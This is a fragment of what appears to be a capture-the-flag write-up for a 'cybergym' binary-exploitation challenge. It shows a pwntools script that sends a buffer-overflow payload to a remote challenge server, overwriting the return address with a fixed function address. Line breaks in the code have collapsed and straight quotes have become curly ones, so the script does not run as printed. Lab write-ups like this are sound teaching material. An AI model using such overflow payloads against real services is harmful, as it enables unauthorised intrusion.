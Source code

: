   <img src="/images/cybergym3/pwn18.png">
</p>

Now, we create our final exploit using __pwntools__ and **python3**

```python
#!/usr/bin/env python3 from pwn import *
# p = process("./UpYnFAQNolbn0vxXftkPmSykV3QvZt")p = remote(”cybergym.lucideus.in”, 1337)
FUNCTION_X = p64(0x00401254)KEY = b"Ho1d_4h3_D00r! \x00"FILLER =  b"A" * (256-len(KEY))JUNK = b"B" * 8
payload = KEY + FILLER + JUNK + FUNCTION_X
p.recvuntil(”Secret Please:\n”)p.sendline(payload)p.interactive()
```

<p align="center">
  <img src="/images/cybergym3/pwn19.png">
</p>

